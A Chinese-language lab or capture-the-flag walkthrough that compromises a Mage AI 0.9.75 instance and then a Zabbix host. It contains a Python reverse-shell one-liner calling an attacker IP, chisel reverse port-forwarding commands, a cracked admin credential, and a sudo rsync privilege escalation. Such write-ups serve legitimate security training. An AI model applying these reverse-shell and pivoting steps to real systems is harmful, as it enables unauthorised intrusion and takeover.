

# 信息收集

## nmap


# 6789端口

该系统是mage0.9.75，该版本存在任意代码执行，可以执行任意python脚本

[publications/2.Mage-AI - Insecure Default Authentication Setup Leading to Zero-Click RCE/README.md at main · zn9988/publications](./https://github.com/zn9988/publications/blob/main/2.Mage-AI - Insecure Default Authentication Setup Leading to Zero-Click RCE/README.md)

`步骤->左侧Pipelines->New->Standard (batch)->这里就可以看到local.txt，当然我们要命令执行->Data loader->Python->API`

在这里我们添加我们想要执行的python代码，然后运行即可


```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.173",6789));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

我添加了这段反弹shell的python代码，然后运行后本地监听就可以得到shell


# 提权

## 数据库


开放了这么多端口，并且还有数据库文件，判断应该是本地还存在一个`web服务-zabbix`

连接到本地数据库，然后访问users表，其中有admin用户的账号密码，先保存下来，后面应该有用


使用[Hash Type Identifier - Identify unknown hashes](./https://hashes.com/en/tools/hash_identifier)识别hash类型，然后使用hashcat破解


`Admin-Zabbix-dinosaur`

## 端口转发

可以查到Zabbix的服务端端口为10051，客户端端口为10050，客户端负责收集信息，将收集到的信息保存到数据库，并且通过ui绘制到服务端的web界面

`apache.conf`下说明zabbix的服务端ui文件是在`/usr/share/zabbix`


查看配置文件后的确是只有本地可以访问


但是`curl http://localhost:10051/zabbix`和`curl http://localhost:10050/zabbix`返回数据都是空

访问http://localhost/zabbix时显示301跳转，所以zabbix-web服务应该是在本地的80端口


我们通过chisel进行端口转发，将本地的80转发到攻击机的9999端口

```shell
#靶机运行
./chisel_1.10.1_linux_amd64 client 192.168.45.173:8888 R:9999:127.0.0.1:80

#攻击机运行
./chisel_1.10.1_linux_amd64 server -p 8888 --reverse
```

然后攻击机访问http://localhost:9999/zabbix就可以成功访问到zabbix服务端的web界面

使用上面从数据库中读到的账号密码进行登录

## zabbix-getshell

网上搜索zabbix-getshell就可以搜到相关文章，先创建脚本，命令我尝试了多个，有的会报错，那么就使用第一次getshell时的python命令



然后在主机这里运行刚才写好的脚本，本地监听即可


`zabbix`用户可以以sudo权限运行`rsync`


利用该`gtfobins`中的方法即可提权


